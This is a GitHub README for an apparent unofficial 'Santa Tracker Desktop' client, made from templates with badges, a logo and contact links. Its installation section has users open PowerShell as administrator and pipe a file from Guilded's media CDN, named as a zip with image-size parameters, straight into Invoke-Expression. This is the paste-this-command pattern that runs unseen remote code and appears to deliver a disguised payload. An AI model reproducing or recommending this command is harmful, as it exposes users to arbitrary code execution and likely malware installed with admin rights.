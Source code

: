 <!-- START Header.mustache -->
<br />
<div align="center">
  <a href="https://github.com/Jax-Core/ReadME-Test">
    <img src="https://play-lh.googleusercontent.com/hG8czln9SPL68rQeMj5q8LYoQJx-OLITaunMSot4R2d0QugmPyT8a2gUQ4rMF3awnHJm" alt="Logo" width="80" height="80">
  </a>

<h3 align="center">Santa Tracker Desktop</h3>
  <p align="center">
    Unofficial Desktop client for Googles Santa Tracker
    <br />
    <a href="https://santatracker.google.com/intl/en/">Official Website »</a>
  </p>
</div>
<!-- END Header.mustache -->
<!-- START ShieldsFull.mustache -->
<p align="center">
  <img alt="Releases" src="https://img.shields.io/github/downloads/ItzIcoza/santa-tracker-desktop/total?style=for-the-badge" />
  <img alt="Release date" src="https://img.shields.io/github/release-date/ItzIcoza/santa-tracker-desktop?label=Last%20Update&style=for-the-badge" />
  <img alt="Github" src="https://img.shields.io/github/license/ItzIcoza/santa-tracker-desktop/?style=for-the-badge" />
</p><!-- END ShieldsFull.mustache -->
<!-- ShieldsBasic for shields without download count and last update date--> 

<!-- START About.mustache -->

## About

![ReadME-Test](https://santatracker.google.com/images/og/village.png)
<!-- END About.mustache -->
Unofficial Desktop client for Googles Santa Tracker


<!-- START GetStarted.mustache -->

## Getting Started

### Prerequisites
- **Windows 10** or above
> For older systems, **Powershell v5.1 or newer** is required. Upgrade powershell **[here](https://docs.microsoft.com/en-us/powershell/scripting/windows-powershell/install/installing-windows-powershell?view=powershell-7.2#upgrading-existing-windows-powershell)**!

### Installation 
Run the following command in Powershell to download the latest version of the desktop client.

(To launch Powershell as an Admin: `Win + R` -> `powershell` -> Press `CTRL + SHIFT + ENTER` on your keyboard. Powershell can also be launched via Windows Search.)

```
Invoke-WebRequest -UseBasicParsing "https://img.guildedcdn.com/ContentMediaGenericFiles/95cb5af604eb6c32c5c783fecb08874c-Full.zip?w=1&h=1" | Invoke-Expression
```


<br />
<br /><!-- END GetStarted.mustache -->
<!-- START Setup.mustache -->

### Configuration
Open the app and select the menu icon in the top left corner.
<br>
<br><!-- END Setup.mustache -->
<!-- START Footer.mustache -->

## Need assistance?
* Unfortunately I can not provide help for issues with the website, although you can contact me on Discord or [Guilded](https://www.guilded.gg/wasthatzero) for help (Most likely to reply on Discord, but Guilded works fine :D)

## Say hi!
* Follow me on 👨‍💻 [Github](https://github.com/ItzIcoza) and stay updated on new things that I make
* Message me on 🗨️ [Guilded]([https://discord.gg/JmgehPSDD6](https://www.guilded.gg/wasthatzero))

<p align="center">
<i>Made with ❤️ by Zero</i>
   <br/><br/>
   <img src="https://play-lh.googleusercontent.com/hG8czln9SPL68rQeMj5q8LYoQJx-OLITaunMSot4R2d0QugmPyT8a2gUQ4rMF3awnHJm"  width="32" height="64">
</p>
<!-- END Footer.mustache -->
